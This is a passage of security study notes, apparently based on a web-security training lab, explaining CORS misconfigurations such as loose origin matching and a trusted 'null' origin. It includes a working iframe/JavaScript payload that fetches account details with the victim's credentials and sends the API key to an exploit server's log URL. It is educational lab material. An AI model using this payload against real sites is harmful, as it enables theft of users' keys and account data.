 ```javascript
hackersnormal-website.com
```

Alternatively, suppose an application grants access to all domains beginning with

```javascript
normal-website.com
```

An attacker might be able to gain access using the domain:

```javascript
normal-website.com.evil-user.net
```
## Whitelisted null origin value

The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:

- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.
### Lab: CORS vulnerability with trusted null origin
1. Check intercept is off, then use Burp's browser to log in to your account. Click "My account".
2. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header `Origin: null.`
4. Observe that the "null" origin is reflected in the `Access-Control-Allow-Origin` header.
5. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with the URL for your unique lab URL and `YOUR-EXPLOIT-SERVER-ID` with the exploit server ID:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText); }; </script>"></iframe>
```

Notice the use of an iframe sandbox as this generates a null origin request.

6. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click "Deliver exploit to victim".
8. Click "Access log", retrieve and submit the victim's API key to complete the lab.

## Exploiting XSS via CORS trust relationships

Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.
Given the following request:
